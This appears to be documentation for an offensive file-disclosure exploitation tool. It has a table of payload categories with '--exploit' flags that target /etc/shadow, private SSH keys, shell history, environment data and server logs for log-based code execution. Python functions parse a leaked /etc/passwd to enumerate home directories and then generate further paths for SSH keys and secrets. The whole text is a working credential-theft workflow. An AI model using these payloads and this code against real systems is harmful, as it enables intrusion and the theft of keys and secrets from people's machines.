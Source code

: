 #### **1. Comprehensive Payload Categories**

**User-Selectable Categories Table**:

|Category ID|Description|Example Payloads|CLI Flag|
|---|---|---|---|
|`linux_system`|Core OS Files|`/etc/passwd`, `/etc/shadow`, `/proc/self/environ`|`--exploit linux_system`|
|`linux_users`|User Home Files|`~/.ssh/id_rsa`, `~/.bash_history`, `~/Documents/*`|`--exploit linux_users`|
|`log_rce`|Log-based RCE|`/var/log/apache2/access.log`, `/var/log/syslog`|`--exploit log_rce`|
|`windows_common`|Windows System|`C:\Windows\win.ini`|`--exploit windows_common`|
|`web_servers`|Web Server Configs|`/etc/apache2/apache2.conf`, `/etc/nginx/nginx.conf`|`--exploit web_servers`|
|`cron_jobs`|Scheduled Tasks|`/etc/crontab`, `/var/spool/cron/crontabs/root`|`--exploit cron_jobs`|
|`database`|Database Configs|`/etc/my.cnf`, `/var/lib/mysql/mysql.log`|`--exploit database`|
|`ftp_configs`|FTP Server Configs|`/etc/proftpd/proftpd.conf`, `/var/log/pure-ftpd.log`|`--exploit ftp_configs`|
|`ssh_keys`|SSH Authentication|`~/.ssh/id_rsa`, `/etc/ssh/sshd_config`|`--exploit ssh_keys`|
|`boot_files`|System Boot Configs|`/etc/inittab`, `/boot/grub/grub.cfg`|`--exploit boot_files`|


#### **2. Home Directory Discovery Process**

**Visual Workflow**:

![[deepseek_mermaid_20250502_9c497a.svg]]


**Step-by-Step Explanation**:

1. **Trigger Condition**:
    
    - When any payload successfully reads `/etc/passwd`
        
    - Response contains `root:x:0:0:` pattern
        
2. **User Extraction**:

```python
# Parsing /etc/passwd format:
# username:password:UID:GID:comment:home:shell
def _extract_users(content):
    return [
        {'user': parts[0], 'home': parts[5]} 
        for line in content.split('\n') 
        if (parts := line.split(':')) and len(parts) > 5
        and '/home/' in parts[5]
    ]
```

**Path Generation**:
```python
# Convert home directories to exploit targets
def generate_home_payloads(users):
    templates = [
        '.ssh/id_rsa',          # SSH private key
        '.bash_history',        # Command history
        'Documents/secrets.txt' # Common sensitive file
    ]
    return [
        f"{user['home']}/{file}" 
        for user in users 
        for file in templates
    ]
```
